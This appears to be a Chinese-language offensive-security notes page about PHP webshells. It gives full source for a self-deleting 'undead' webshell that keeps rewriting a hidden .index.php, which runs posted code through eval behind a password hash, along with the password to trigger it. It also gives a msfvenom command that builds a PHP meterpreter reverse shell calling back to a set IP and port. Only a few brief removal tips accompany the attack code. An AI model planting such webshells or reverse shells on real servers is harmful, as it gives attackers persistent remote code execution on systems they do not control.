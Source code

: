 

**进程运行，只有把进程干掉，才可以删除的木马：**

```
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file="./.index.php";
$code='<?php if(md5($_POST["pass"])=="01ddae4032e17a1c338baac9c4322b30"){@eval($_POST[a]);}';
while(1){
  file_put_contents($file, $code);
  usleep(5000);
}
?> 

使用方法，执行muma.php
pass=haha123&a=phpinfo();
```

防御方法：

1重启php服务器，可以删除

2使用竞争写入（Python）

3创建一个.index.php名字的文件夹







# kali生成功能较多的php木马

kali

使用msf制作一个php木马：

```
msfvenom -p php/meterpreter/reverese_tcp lhost=10.3.32.95 lport=4444 -f raw > /root/shell.php
//raw格式-代码格式
```

生成一个shell.php：

![image-20220116204246834](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20kali%E7%94%9F%E6%88%90%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116204246834.png)

下载到本机，用文本打开可以查看：

![image-20220116204329815](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20kali%E7%94%9F%E6%88%90%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116204329815.png)

